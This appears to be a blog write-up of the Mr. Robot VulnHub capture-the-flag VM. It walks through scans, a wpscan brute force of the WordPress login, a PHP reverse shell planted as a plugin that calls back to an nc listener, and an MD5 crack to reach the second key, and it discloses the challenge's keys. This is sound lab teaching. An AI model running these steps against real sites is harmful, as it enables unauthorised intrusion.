 ```yaml
---
layout: post
author: trent
title: Hacking f_society.
---
```


# Introduction
Mr. Robot is a show on AMC about a disturbed hacker attempting to thwart an omni-present
oligarchy while at the same time trying to suppress a dark alter-ego modeled after his
own father.

Notably, the show tries to portray "hacking" realistically (inasmuch as it can without entire episodes
dedicated to watching Elliot pore over the documentation of a specific vulnerable version
of httpd running on Windows Server 2000), and I appreciate it. Well, mostly.

With that in mind, let's break a Mr. Robot themed VM together, and maybe learn something
about webapp security along the way.

Download the .ova from [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/), pop it
in your favorite virtualization software (hard to go wrong with VirtualBox), and boot it up.
The Mr. Robot VM grabs a DHCP lease on boot, and I'd recommend running it and your offense
box on the same virtual subnet.

# Recon / Scanning
First, let's scan the subnet to find Mr. Robot's VM.

```shell
root@bento:~# nmap -A 10.0.2.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2016-08-03 23:48 PDT

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:6C:39:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.19
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 10.0.2.5
```


From the scan, we can see the VM is probably serving some sort of web-service.
Before we investigate this further, however, let's run some more scans and see
if we can dig up anything else.

```shell
root@bento:~# nikto -host 10.0.2.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.5
+ Target Hostname:    10.0.2.5
+ Target Port:        80
---------------------------------------------------------------------------
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
```

Our nikto scan turns up a bunch of interesting directories, including what looks like
an admin portal for a WordPress site. Definitely worth checking out.

Navigating to the VMs IP in Firefox yields the following page:

![]({{ site.baseurl }}/assets/img/mr_robot.webm)

None of the commands are all that interesting. What is interesting,
however, is the site's robots.txt file:

![]({{ site.baseurl }}/assets/img/robots.png)

Looks like we've got our first key.

```shell
root@bento~# wget http://10.0.2.10/key-1-of-3.txt
--2016-08-06 18:43:14--  http://10.0.2.10/key-1-of-3.txt
Connecting to 10.0.2.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/plain]
Saving to: ‘key-1-of-3.txt’

key-1-of-3.txt      100%[===================>]      33  --.-KB/s    in 0s      

2016-08-06 18:43:14 (7.39 MB/s) - ‘key-1-of-3.txt’ saved [33/33]

root@bento~# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

That's a pretty easy win in my book. I'll take it. Save the .dic file for
later, there's no telling how it will come in handy but I doubt they let
us have it for nothing.

Time to revisit the nikto scan and see if we can turn up anything from the
WordPress directories. Let's start with the login page, /wp-login.php.

# Gaining Access

Poking at the login page with a few default credentials doesn't really reveal
anything interesting. Routing the request/response traffic through Burp also
comes up short. Going back to the .dic file we downloaded earlier, it's pretty
clearly some kind of wordlist. There are many duplicate words in there, however,
so I hacked together a Python script to remove them:

```python
with open('fsocity.dic') as infile: dic = infile.readlines()
dic = set(dic)
fsocity = open('fsocity_sorted.dic', 'w')
for i in dic: fsocity.write("%s" % i)
```

Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
username in the .dic file) we can attempt to bruteforce the WordPress login. I'll be
using the wpscan tool for my web cracking.

```shell
root@bento:~# wpscan -u http://10.0.2.10/ --wordlist fsocity_sorted.dic --username Elliot
  Brute Forcing 'Elliot': |===================================
  [+] [SUCCESS] Login : Elliot Password : ER28-0652

  Brute Forcing 'Elliot': |===================================
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | Elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Mon Aug  8 12:57:26 2016
[+] Requests Done: 7853
[+] Memory used: 11.816 MB
[+] Elapsed time: 00:02:09
```

Input the credentials into the login form... and we're in.

# Privilege Escelation

From the WordPress admin page, we have access to the source code of a variety of plugins.
Using this, we can spawn a reverse shell with some clever PHP code. The reverse shell I use
I grabbed from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), just
make sure to make the necessary adjustments to the socket so you can actually recieve the 
traffic your reverse shell sends back. To do this, edit these lines of the above .php script:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.2.15';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

to reflect your own IP address as well as a generic port you wish to recieve the traffic on.
After that, either zip and upload the standalone PHP shellcode as a WordPress plugin, or paste
the script into one of the plugins already on the site. Then, set up a listener in your terminal
and activate the plugin containing the payload:

```sh
root@bento:~# nc -lvp 6666
listening on [any] 6666 ...
10.0.2.10: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 57491
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 22:26:41 up  1:08,  0 users,  load average: 0.01, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ 
```

Cool, we have a shell session up. I poked around the system for a long time looking for clues or
other keys, and finally found the files 'password.raw-md5' and 'key-2-of-3.txt' in '/home/robot'. However, cat-ing the file gives Permission Denied. Looks like I'll have to escalate my privilege.

```sh
$ su
su: must be run from a terminal
$
```

Okay, first we have to spawn a terminal with Python:

```sh
$ python -c 'import pty; pty.spawn("bin/sh")'
$ su robot
su robot
Password:
```

Great, now at least we can 'su'. Going back to the file 'password.raw-md5' we found does indeed
give us a raw md5 hash. Popping it into one of the online crackers like [this one](http://md5cracker.org/)
gives us the string 'abcdefghijklmnopqrstuvwxyz'. Nice. You'd think Elliot would have a better
password.

```sh
$ su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ whoami
whoami
robot
robot@linux:/$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:/$
```

Nice. Got the second key.

-TC
